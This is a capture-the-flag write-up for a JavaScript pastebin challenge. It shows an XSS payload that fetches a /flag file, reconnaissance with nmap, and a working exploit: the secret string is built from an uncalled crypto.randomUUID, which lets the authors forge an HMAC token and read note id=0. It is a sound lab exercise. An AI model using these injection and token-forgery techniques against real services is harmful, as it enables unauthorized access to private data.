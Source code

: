 # Knock Knock

Knock Knock is a JavaScript challenge where we are given a website that functions as a pastebin and the underlying js code. 

### Problem:

The challenge website presented as a simple pastebin. Users can give input that is then available at a link with the parameters ```id``` and ```token```.

![](images/img1.png?raw=true)

If the ```id``` or ```token``` parameters are changed, then the system tells you the token is invalid and it does not paste the input.

![](images/img2.png?raw=true)

### Attempts:

Initially, we approached this as a XSS problem. The system is vulnerable to script injection and does output a response to ```<script>alert(1)</script>```. 

![](images/img3.png?raw=true)

We attempted to inject script that would return the file ```/flag```.

```<script>function httpGet(theUrl)   { 	var xmlHttp = null;  	xmlHttp = new XMLHttpRequest(); 	xmlHttp.open( "GET", theUrl, false ); 	xmlHttp.send( null ); 	return xmlHttp.responseText;   }   alert(httpGet("https://knock-knock.mc.ax/flag"));</script>```

![](images/img4.png?raw=true)

Next we attempted some reconnaissance using Wireshark, cURL and nmap because the name of the challenge could refer to port knocking.

We used Wireshark to find the IP address of the target, then cURL it which returned 0.Finally an nmap scan reveals that port 443 is open.This told us that that the solution did not involve hidden ports and that further investigation of the provided javascript file was required. 

Review of the source code that was provided revealed that the flag was the first post after the instantiation of the database:

```
const db = new Database();
db.createNote({ data: process.env.FLAG });
```

This means that the flag was in the post with id=0. As a result, the goal became to discover a way to leak the token which is generated with a secretary key variable:

```
this.secret = `secret-${crypto.randomUUID}`
```

Using replit.com to dynamically modify and run the source code, we were able to observe odd behavior where the above line of code would output “secret-undefined”. At this point, the CTF ended but we continued to work on the problem.

### Solution: 

After further work, it turns out that the version of Node.Js dictates the behavior of crypto.randomUUID. Running it on on replit.com produced undefined output but running it on a newer version of Node.JS produces the following output:

```
> const secret = `secret-${crypto.randomUUID}`;
undefined
> secret
'secret-function randomUUID(options) {\n' +
  '  if (options !== undefined)\n' +
  "    validateObject(options, 'options');\n" +
  '  const {\n' +
  '    disableEntropyCache = false,\n' +
  '  } = options || {};\n' +
  '\n' +
  "  validateBoolean(disableEntropyCache, 'options.disableEntropyCache');\n" +
  '\n' +
  '  return disableEntropyCache ? getUnbufferedUUID() : getBufferedUUID();\n' +
  '}'
```

We realized that this was the flaw of the code. The secret creation did not call crypto.randomUUID properly so the output was the help text. So all we really had to do was create our token with that secret and with the id=0 attribute and include the result as a token to the CTF’s URL:

```
> crypto.createHmac('sha256', secret).update('0').digest('hex')
'7bd881fe5b4dcc6cdafc3e86b4a70e07cfd12b821e09a81b976d451282f6e264'
```

Submit the URL and retrieve the flag:

https://knock-knock.mc.ax/note?id=0&token=7bd881fe5b4dcc6cdafc3e86b4a70e07cfd12b821e09a81b976d451282f6e264 

![](images/img8.png?raw=true)
